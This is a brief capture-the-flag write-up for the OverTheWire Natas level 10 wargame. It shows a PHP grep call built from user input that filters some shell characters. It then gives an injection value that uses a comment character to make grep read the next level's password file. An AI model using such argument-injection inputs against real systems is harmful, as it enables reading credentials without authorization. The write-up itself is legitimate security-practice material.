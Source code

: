 ```html
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Same as the previous challenge but now we are forbidden to use a semicolon, pipe, or ampersand.

In this case, instead of breaking out of the command we'll try to craft it to do what we want itself. By using a comment character we can eliminate dictionary.txt and insert our own choice of file. To be sure it will match, we'll search for any letter or number.

Our injection...

```
[a-z0-9] /etc/natas_webpass/natas11 #
```

The command as executed by the system...

```
grep -i [a-z0-9] /etc/natas_webpass/natas11 # dictionary.txt
```

Sweet.

![natas10-02](/assets/images/otw-natas/natas10-02.png)
